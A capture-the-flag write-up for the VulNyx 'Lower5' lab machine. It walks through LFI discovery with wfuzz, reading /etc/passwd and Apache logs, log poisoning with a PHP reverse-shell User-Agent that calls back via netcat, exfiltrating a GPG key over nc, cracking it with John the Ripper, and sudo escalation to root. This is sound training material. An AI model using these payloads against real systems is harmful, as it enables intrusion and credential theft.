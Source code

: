 ```yaml
---
title: VulNyx - Lower5 Writeup
date: 2025-05-17 20:51:00 +0530
categories: [Vulnyx]
tags: [vulnyx]
---
```


This write-up covers the solution to the low-difficulty machine "Lower5" released on [VulNyx](https://vulnyx.com/). The machine features a Local File Inclusion (LFI) vulnerability paired with log poisoning, ultimately leading to privilege escalation.

## Nmap

```bash

labs/vulnyx/lower5 
❯ nmap -sC -sV -oA lower5 lower.vl 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-22 02:57 EDT
Nmap scan report for lower.vl (192.168.25.5)
Host is up (0.000089s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: vTeam a Corporate Multipurpose Free Bootstrap Responsive template
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:41:41:2B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
                                                                                                       
```

### Port 80 - HTTP
The site hosted on port 80 uses a script named `page.php`, which includes files based on the `inc` parameter (e.g., `http://192.168.25.10/page.php?inc=about.html`). I suspected a Local File Inclusion (LFI) vulnerability and decided to test it using wfuzz. 

## Local File Inclusion (LFI)

LFI Wordlist Used: [https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt)

```bash
labs/vulnyx/lower5 
❯ wfuzz -c -w file_inclusion_linux.txt -u "http://lower.vl/page.php?inc=FUZZ" --hh=52
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://lower.vl/page.php?inc=FUZZ
Total requests: 2299

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001815:   200        1862 L   22587 W    256035 Ch   "/var/log/apache2/access.log"                                                                                                                                              
000001016:   200        22 L     26 W       1051 Ch     "/etc/passwd"                                                                                                                                                              

Total time: 1.083493
Processed Requests: 2299
Filtered Requests: 2297
Requests/sec.: 2121.839
                                                                                                                                                                                                                                       
```

### /etc/passwd

```bash
labs/vulnyx/lower5 
❯ curl "http://lower.vl//page.php?inc=/etc/passwd"                            
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
low:x:1000:1000:low:/home/low:/bin/bash
                                       
```

### /var/log/apache2/access.log
Since Apache logs are accessible, making log poisoning a viable path.

```bash
labs/vulnyx/lower5 
❯ curl -s "http://lower.vl//page.php?inc=/var/log/apache2/access.log" | head
zsh: no such file or directory: labs/vulnyx/lower5

192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.0" 200 11884 "-" "-"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /.git/HEAD HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /nmaplowercheck1745305071 HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /robots.txt HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST /sdk HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"

```

## Log Poisoning

### Reverse Shell Injection via User-Agent

We poison the log by sending a malicious `User-Agent` header containing a PHP reverse shell:

```bash
labs/vulnyx/lower5 
❯ curl -s -H "User-Agent: <?php system('busybox nc 192.168.25.4 1234 -e /bin/sh'); ?>" "http://lower.vl/"
```

```bash
labs/vulnyx/lower5 
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.5] 37424
pwd
/var/www/html
whoami
www-data
```
Shell obtained as `www-data`.

## Privilege Escalation

### User flag

```bash
www-data@lower5:/var/www/html$ sudo -l
Matching Defaults entries for www-data on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on lower5:
    (low) NOPASSWD: /usr/bin/bash
```

```bash
www-data@lower5:/var/www/html$ sudo -u low bash 
low@lower5:/var/www/html$ pwd
/var/www/html
low@lower5:/var/www/html$ cd ~
low@lower5:~$ ls
root.gpg  user.txt
low@lower5:~$ cat user.txt 
30a****************************
```

### Root flag
```bash
low@lower5:~$ sudo -l
Matching Defaults entries for low on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User low may run the following commands on lower5:
    (root) NOPASSWD: /usr/bin/pass

```
```bash
low@lower5:/var/www/html$ sudo -u root /usr/bin/pass
Password Store
`-- root
    `-- password
```

Running the `pass` command prompts for a GPG passphrase:

```bash
low@lower5:~$ sudo -u root pass root/password
┌───────────────────────────────────────────────────────────────┐
│ Please enter the passphrase to unlock the OpenPGP secret key: │
│ "administrator (password) <admin@lower5.nyx>"                 │
│ 1024-bit RSA key, ID E70EBB1C2CFFB642,                        │
│ created 2025-04-09 (main key ID 9AD17885DA2449A1).            │
│                                                               │
│                                                               │
│ Passphrase: _________________________________________________ │
│                                                               │
│         <OK>                                   <Cancel>       │
└───────────────────────────────────────────────────────────────┘
```

```bash
labs/vulnyx/lower5 
❯ nc -lp 1212 > root.gpg
```

```bash
low@lower5:~$ nc -w3 192.168.25.4 1212 < root.gpg 
```

#### Cracking the GPG passphrase ([John The Ripper](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html))


```bash
labs/vulnyx/lower5 
❯ gpg2john root.gpg > root_hash

File root.gpg                        
```

```bash
labs/vulnyx/lower5 took 5s 
❯ sudo john --wordlist=rockyou.txt root_hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (administrator)     
1g 0:00:02:11 DONE (2025-05-17 07:49) 0.007629g/s 26.74p/s 26.74c/s 26.74C/s Password1..wateva
Use the "--show" option to display all of the cracked passwords reliably
Session completed.            
```
Recovered password: `Password1`

```bash
low@lower5:~$ sudo -u root /usr/bin/pass root/password
r00tP@zzW0rD123
```

```bash
root@lower5:~# cat root.txt 
008****************************
```